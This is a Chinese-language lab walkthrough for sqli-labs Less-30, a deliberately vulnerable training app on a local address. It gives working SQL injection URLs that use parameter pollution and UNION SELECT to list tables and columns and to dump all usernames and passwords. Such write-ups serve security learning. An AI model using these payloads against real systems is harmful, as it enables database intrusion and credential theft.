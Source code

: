 ```yaml
---
title: Less - 30
date: 2023-03-16T23:23:44Z
lastmod: 2023-03-16T23:32:28Z
---
```


# Less - 30

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=2'
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=2" 
```

​![image](assets/image-20230316232723-8nvt4du.png)​

​![image](assets/image-20230316232803-n1nyc55.png)​

---

根据错误显示判断闭合方式为"–+，并且为字符型注入

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,database()--+
```

​![image](assets/image-20230316232938-76f5agq.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​![image](assets/image-20230316233024-5spsd78.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​![image](assets/image-20230316233127-bu908mr.png)​

---

## 5、查看username,password字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-30/login.php?id=1&id=-2" union select 1,2,(select group_concat(concat_ws('~',username,password)) from security.users)--+
```

​![image](assets/image-20230316233221-bpeowbo.png)​
